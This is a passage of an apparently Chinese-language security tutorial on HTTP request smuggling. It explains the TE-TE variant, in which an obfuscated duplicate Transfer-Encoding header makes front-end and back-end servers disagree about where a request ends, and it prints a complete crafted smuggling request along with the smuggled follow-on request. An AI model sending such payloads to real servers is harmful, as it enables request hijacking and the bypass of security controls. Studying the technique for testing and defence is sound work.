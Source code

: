 就认为这个请求已经结束了。后面的数据就认为是另一个请求：

```plain
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错，造成 HTTP 请求走私。

#### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，确实是实现了 RFC 的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作 (如某个字符改变大小写)，从而使其中一个服务器不处理`Transfer-Encoding`请求头。在某种意义上这还是`CL-TE`或者`TE-CL`。  
**构造请求示例**：

```plain
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

**攻击流程**：  
前端服务器处理`Transfer-Encoding`，当其读取到

```plain
0\r\n
\r\n
```

认为是读取结束。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器处理`Transfer-encoding`请求头，将`Transfer-Encoding`隐藏在服务端的一个`chain`中时，它将会回退到使用`Content-Length`去发送请求。读取到

```plain
5c\r\n
```

认为是读取完毕了。后面的数据就认为是另一个请求：

```plain
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```
